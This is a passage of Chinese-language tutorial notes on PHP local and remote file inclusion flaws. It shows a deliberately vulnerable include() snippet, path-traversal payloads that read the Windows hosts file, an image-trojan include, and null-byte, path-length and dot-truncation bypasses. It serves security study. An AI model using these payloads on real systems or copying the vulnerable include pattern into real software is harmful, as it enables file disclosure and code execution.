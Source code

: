 ------



#### 分类

- 主要包括`本地文件包含(LFI)`和`远程文件包含(RFI)`

- 简单来说,本地文件包含可以`读取`和`打开本地文件`,远程文件包含(http,ftp,php伪协议)就是可以`远程加载文件`

- `包含条件`:allow_url_fopen=On(php.ini中进行配置,该选项默认为on)->`本地文件包含不受影响`&&用户可以`动态控制变量`

- ```php
  //无限制本地文件包含漏洞经典代码
  <?php
  $filename=$_GET['filename'];
  include($filename);
  ?>
  ```

------



#### 本地文件包含(LFI)

- `绝对路径`读取本地host文件-->`?action=C:\Windows\System32\drivers\etc\hosts`

- `相对路径`读取本地host文件-->`?action=..\\..\\..\\\..\\..\\..\\..\\..\\windows\system32\drivers\etc\hosts`

- 包含图片木马:`?action=./test.jpg`

- `有限制`本地文件包含漏洞`绕过`

- ```php
  <?php
  $filename=$_GET['filename'];
  include($filename.".php");
  ?>
      
  //绕过方法
   1.%00截断
      - 条件:magic_quotes_gpc=Off php版本<5.3.4
      - 获取phpinfo.php文件-->  ?action=phpinfo.php%00
          
   2.路径长度截断
      - 条件:windows下长于198字符,超出部分会被丢弃
      - ?action=phpinfo.php/./././././././././././././././././././././././././././././././././././././
          
   3.点号截断
      - 条件:windows系统,点号需要长于197
      - ?action=phpinfo.php.............................................................................
          
  ```
